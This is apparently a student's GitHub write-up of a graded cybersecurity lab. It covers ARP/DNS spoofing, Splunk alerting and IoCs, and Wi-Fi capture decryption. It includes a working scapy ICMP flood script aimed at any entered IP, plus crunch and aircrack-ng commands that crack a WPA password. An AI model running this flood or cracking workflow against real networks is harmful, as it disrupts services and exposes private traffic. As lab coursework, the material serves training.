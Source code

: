 # Implementation of Arpspoof tool and Splunk SIEM Tool with cracking password

## Use the arpspoof tool to perform the following attacks [10 Marks] 
  ### a. Use ARP packets to perform the DNS spoofing attack. Whatever the website the user types, it should navigate to http://testphp.vulnweb.com/login.php as a part of the attack.



![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7aa715a7-f962-44f0-97cc-f385e310c1a2)

Victim: 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/6bc5f582-d90e-4437-89a5-d24a3c943829)

Arp Spoof Started

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/20502860-fc28-4804-b4df-5574b945e6aa)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/62716f88-d63d-40fe-afed-46705ce83537)

Dns Spoof Host

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/8986bd4a-d11a-48e5-bcae-b1766c17cf90)

![WhatsApp Image 2024-03-17 at 10 45 34_8dd998e1](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7fc8c409-f7fa-4623-8fb7-a0e62325bed1)



  ### b. Use ICMP Packets to perform only DDOS attacks over the victim. 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/86edcb21-1696-4996-bd73-bc886422d8e8)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/bac150a5-3d56-4bf6-87b2-89101e60a150)

```
from scapy.all import *

# Function to send ICMP packets
def send_icmp_packet(dst_ip):
    icmp_packet = IP(dst=dst_ip)/ICMP()
    send(icmp_packet, loop=True, verbose=False)

# Main function
def main():
    target_ip = input("Enter the target IP address: ")
    while True:
        send_icmp_packet(target_ip)

if __name__ == "__main__":
    main()
```

DDOS Attack is performed



## 2. Use Splunk to answer the following questions:
  ### a. Capture these above attacks using Splunk in an active or passive method. (10 Marks)

Passive Method for analysing the event

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/96ff1ae2-98f7-4f65-97ad-956fbe7bd15e)

  
  ### b. Identify and Analyse the Indicator of Compromise for the attack. (5 Marks)

- An Indicator of Compromise (IoC) is any piece of evidence or anomaly that suggests a network intrusion or security breach has occurred. IoCs can take various forms, including:
    - File Hashes: Hash values of known malicious files or executables found on systems.
    - IP Addresses: IP addresses associated with malicious activity, such as command and control servers or sources of malicious traffic.
    - Domain Names: Domain names linked to malicious activities, phishing campaigns, or hosting malicious content.
    - URLs: URLs used in phishing emails or websites hosting exploit kits or malware payloads.
    - File Paths: Unusual file paths or directories commonly used by malware for persistence or data exfiltration.
    - Network Traffic Patterns: Anomalous network traffic, such as unusual spikes in DNS queries, connections to known malicious IP addresses, or unexpected outbound traffic.
    - System Logs: Suspicious entries in system logs, including failed login attempts, privilege escalations, or unusual system activities.


For DNS Spoofing Attack IOC can be :
  - DNS Log Analysis and DNS Traffic Analysis
  - File Hash, Suspicious IP Address and anamoulous Login Activity


  
  ### c. Explore and create an Alert for similar attacks in the Future. (5 Marks)

- we should create an alert to monitor such type of events when encountered in future.

  
![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/d6a72533-bd5a-43ed-a1a0-6a95463274b6)

After Creating an alert 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/3b78d826-30f9-4b13-bcf3-16c310e404e4)

  - first selecting due to which incident the attack is generated
  - Select Monitoring tool
  - Create alerts.
  - Test the alerts
  - Fine- Tuning the alert
  - Document the alert rules which are craftes
  - Continuous Improvement.


## 3. Use the given PCAP file to analyse and answer the following questions:

  ### a. Decrypt the traffic by cracking the password using appropriate tools and techniques. It is a must to mention briefly your method of cracking the password in the documentation. [HINT: password length – 16, Capital letter – 2, numerals – 6, It is a repetition of the same word as [CyberCyber].[6 Marks]

First we have to create a word list with `Crunch` command 

`crunch 8 8 ,@@@@123 -o temp.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/fc706b18-c6de-4d33-8ce2-d03f2880b1cd)

`sed "s/^\(.\{8\}\)$/\1\1/" temp.txt > final.txt`

then we will make for 16 characters with concatination command 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/1483d82a-173b-49ec-8f8a-64de86e90157)

If we directly crack the password using the cap file it will show as unsupported file so we need to change the formate of the file with tcpdump tool
`tcpdump -r Downloads/midterm.cap -w output.pcap`

we have to crack password by using wordlist in `aircrack-ng tool`
`aircrack-ng output.pcap -w final.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c8293b2b-a9aa-4c5c-99cf-81480c740b10)

Password Cracked: `Cisco123Cisco123`

  ### b. Analyse the decrypted traffic using tools to identify the malicious/suspicious activity recorded in the WLAN. [4 Marks]

Now we have to open Wireshark and add our password in keys to decypt the pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c34c9bfd-61b1-4177-9ff1-c22dbeeb61e7)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/dd34ea48-917f-4a50-a1fa-146c9933d8a7)

On Analyzing the pcap file, we can get to know that Voip call is made throgh Skinny Protocol and all details regarding the call are available in this pcap 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/4c571bf1-337d-49b6-8d31-4770dfc3dce3)

First Connection is established with Skinny Protocol then Communication is being performed RTP and at last connection is disabled

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/0a700cf5-0b81-4e30-985e-a38360ca6b5f)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/2d425d52-d0ad-4e94-b561-9760d858cf32)









  
